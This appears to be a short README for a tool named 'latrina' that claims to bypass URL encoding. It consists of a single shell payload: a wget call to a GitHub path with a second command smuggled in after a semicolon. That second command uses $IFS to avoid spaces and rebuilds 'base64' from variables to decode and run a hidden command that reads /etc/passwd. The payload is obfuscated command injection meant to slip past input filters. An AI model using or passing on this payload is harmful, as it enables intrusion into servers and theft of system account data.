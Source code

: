 # latrina
bypass url encoding with nontrivial commands

```
wget https://github.com/kusky3/latrina/raw/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c<<<$a)
```
